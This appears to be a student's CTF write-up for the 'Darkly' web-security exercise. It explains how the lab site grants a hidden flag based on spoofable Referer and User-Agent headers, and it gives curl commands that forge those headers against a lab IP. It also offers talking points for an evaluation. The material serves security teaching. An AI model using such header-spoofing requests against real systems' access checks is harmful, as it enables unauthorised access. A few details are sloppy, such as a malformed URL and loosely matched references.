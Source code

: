 # 🧠 HTTP Header Manipulation – Referer & User-Agent Spoofing – MEMO

## 📌 Breach Summary
The Darkly application relies on HTTP headers such as `Referer` or `User-Agent` to determine access rights or unlock hidden features. These headers can be easily spoofed by the user, resulting in a **Header Manipulation** vulnerability.

This breach often grants access to a hidden flag or restricted content simply by changing the headers in a request.

---

## ✅ Step-by-Step Exploitation

### 1. 🔍 Identify the Target Page
go to the bottom of the webpage and hit the @borntosec

or

just get there directly with this :

http::/{ip}/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f

There will be an albatross picture. Inspect it (F12). Find the long comment
<!-- You must cumming from : "https://www.nsa.gov/" to go to the next step -->
<!-- Let's use this browser : "ft_bornToSec". It will help you a lot. -->

These comments indicate the server expects a Referer of https://www.nsa.gov/ and a User-Agent of ft_bornToSec

### 2. 🕵️ Spoof Headers Using curl or Burp
use curl to create a new html:
```bash
curl -H "Referer: https://www.nsa.gov/" http://<target-ip>/copyright
```

Or set a fake `User-Agent`:
```bash
curl -s http://10.39.42.166/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f -H "Referer: https://www.nsa.gov/" -H "User-Agent: ft_bornToSec" -o ftbts.html
```
open the ftbts.html, the flag is inside

---

## 💬 What to Say During Evaluation

- Explain that HTTP headers can be manipulated client-side.
- Mention that relying on `Referer`, `User-Agent`, or `Host` headers for access control is insecure.
- Demonstrate the spoofed request and resulting content.

---

## 📚 References

- OWASP: Insecure Direct Object References (IDOR)
- Header Spoofing: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypassing-access-controls-using-headers
- Tools used: curl, Postman, Burp Suite (manual requests)

✅ Be ready to show the actual spoofed request and response during evaluation.